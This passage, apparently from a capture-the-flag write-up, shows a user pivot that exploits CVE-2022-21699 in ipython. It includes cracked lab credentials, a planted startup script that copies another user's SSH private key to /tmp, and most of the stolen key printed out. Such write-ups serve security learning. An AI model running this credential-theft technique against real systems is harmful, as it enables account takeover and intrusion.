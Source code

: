 Cracking it via crackstation gives the credentials `james_mason:Soleil101`

We can then connect to the machine via ssh, however to get the user flag we first need to pivot to another user, `dan_smith`.

## Pivot
Checking `id`, we can tell that james is part of the developer group, and via `pspy` we can tell that this group is running some interesting commands on the machine:
```console
2022/08/14 10:15:01 CMD: UID=1001 PID=2204   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/08/14 10:15:01 CMD: UID=1001 PID=2205   | /usr/bin/pkill ipython 
2022/08/14 10:15:01 CMD: UID=0    PID=2206   | /bin/bash /root/c.sh 
2022/08/14 10:15:01 CMD: UID=0    PID=2207   | sleep 5 
2022/08/14 10:15:01 CMD: UID=1001 PID=2208   | /usr/bin/python3 /usr/local/bin/ipython 
```
Ipython has had multiple CVE's disclosed at this point, and one that looks interesting is CVE-2022-21699, which should allow us to run code as another user on the system. If we go to Ipython's github repository, they have a [security advisory](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x), including a proof of concept of the vulnerability.

To get access to the other user on the system, we simply follow the PoC, and create the required folders and files in the `/opt/scripts_review` directory: 

```console
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/key')" > profile_default/startup/foo.py
```
Once the system has had some time to run the script, we can read the ssh key of the `dan_smith` user in tmp.

```console
james_mason@shared:/tmp$ cat key 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
---SNIP---
YWfa9RiI5aTaWdOrytt2l3Djd1V1/c62M1ekUoUrIuc5PS8JNlZQl7fyfMSZC9mL+iOQAA
AMEAy6SuHvYofbEAD3MS4VxQ+uo7G4sU3JjAkyscViaAdEeLejvnn9i24sLWv9oE9/UOgm
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----

```
